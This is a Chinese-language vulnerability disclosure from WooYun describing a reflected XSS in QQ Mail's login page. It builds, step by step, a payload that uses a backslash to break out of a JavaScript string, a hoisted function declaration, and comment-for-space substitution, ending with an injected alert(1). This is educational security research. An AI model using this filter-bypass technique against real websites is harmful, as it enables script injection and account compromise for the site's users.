





# 5\. 反斜线复仇记

> 来源：[5\. 反斜线复仇记](http://www.wooyun.org/bugs/wooyun-2010-015979)

## 简要描述

还是在`<script>`之间的场景，某些情况下，我们仅仅需要的只是一个反斜线，就可以绕过过滤了。

## 详细说明

1\. 有以下实例点。

```
http://mail.qq.com/cgi-bin/login?vt=passport&ss=aaa&from=bbb&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%25252Fcgi- bin%25252Fsetting10%25253Faction%25253Dlist%252526t%25253Dsetting10%252526ss%25253Dindex%252526Mtype%25253D1%252526cl ickpos%25253D20%252526loc%25253Ddelegate%25252Cwebmap%25252C%25252C1 
```

对应的输出，如下图所示：



经过测试，我们可以看到，双引号是用不了， 但是 反斜线还可以使用。



那么这里是否可以成功的 XSS 呢？ 我们把缺陷代码部分提取出来。

```
<script>getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin="+"&t="+"&alias="+"&regali as="+"&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%252Fcgi-bin%252Fsetting10%253Faction%253Dlist%2526t%253Dsetting1 0%2526ss%253Dindex%2526Mtype%253D1%2526clickpos%253D20%2526loc%253Ddelegate%252Cwebmap%252C%252C1"+"&title="+"&url=%2 Fcgi-bin%2Flogin%3Fvt%3Dpassport%26ss%3Daaa%2522%26from%3Dbbb%5C%26delegate_url%3D%252Fcgi-bin%252Fframe_html%253Furl%253D%2525252Fcgi-bin%2525252Fsetting10%2525253Faction%2525253Dlist%25252526t%2525253Dsetting10%25252526ss%2525253Din dex%25252526Mtype%2525253D1%25252526clickpos%2525253D20%25252526loc%2525253Ddelegate%2525252Cwebmap%2525252C%2525252C1"+"&org_fun="+"&aliastype="+"&ss=aaa"+"&from=bbb"+"&param="+"&sp=6fa57ce5b3047ebMTM1NTQwOTA2Mg"+"&r=3ec785174fff5206 ed6f0cf4a8c5e3c5"+"&ppp="+"&secpp="</script> 
```

2\. 可以看到有缺陷的部分是

```
location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//后面省略。 
```

我们可以控制的是 aaaa ，又不能用`"`，怎么办呢？ 因为我们可以使用 `\`，那么我们可以杀掉 aaaa 后面的 双引号。

```
location.href="........."+"&ss=aaaa\"+"&from=bbb"+"&param="; 
```

可以看到代码的结果因为一个反斜线发生了变化，如下图：



为了保证 bbb 后面的语法正确性，我们把 bbb 改为一个数字，把 bbb 后面加上 `//` 来注释掉后面的部分。变成以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param="; 
```

3\. 看起来不错哦，但是会出来一些问题，`"字符串"&from=1`，这样是错误的，因为&符号的优先级高， `("字符串"&from)=1` 是无法进行 这种赋值操作的。这样一来还是不行。别着急。我们可以稍微改动一下。变为以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param="; 
```

由于==的优先级比 `&` 高，所以语句相当于 `("字符串")&(from==1)`

4\. 更顺眼了，但是还是会悲剧啊。由于 from 未定义，直接和 1 进行相等判断的话，会报错，错误是：“from”未定义。。。怎么办呢？

5\. 别紧张，javascript 里有一个特性。 如下：

```
aaa();

function aaa(){

} 
```

凡是以 `function xxx(){}` 形式定义的函数，都会被最优先解析。换句话说：

解析器在解析 JS 代码段时，会先将 `function xxx(){}` 拿到最前面解析，然后再依次解析其它的部分。 换句话说，上面的代码，实际 的解析顺序是：

```
function aaa(){

}

aaa(); 
```

利用这样一个特性，我们的代码可以改改。

```
location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param="; 
```

这样一来，我们的 `function from(){}` 就会被提前解析，从而定义了 from, 后面 `from==1` 的时候，就不会报错啦～～

6\. 故事往往是曲折的，到了这一步，我们会发现还是不行。

看一看源代码吧～～ ，哎，我们的空格被转义为了 `&nbsp;`



7\. 当然，这么一点小事情，难不到我们的，我们用注释符来做分隔符。 `/**/`替换空格，有没有觉得和 sql 注入一样了，咔咔。

于是，我们的代码变为了：

```
location.href="........."+"&ss=aaaa\"+"&from==1;function/**/from(){}//"+"&param="; 
```

8\. 嗯，这次没有语法错误了，我们插入我们自己的 JS 代码。

```
location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param="; 
```

最终的利用代码如下：

恩，这次是我们的 反斜线为 双引号报仇啦！



只有在不登录 QQ 邮箱的情况下触发，比较鸡肋，实际意义不大，仅供研究。

## 修复方案

1\. 随便修修就好。

2\. 某些情况下，`\` 还是很危险的。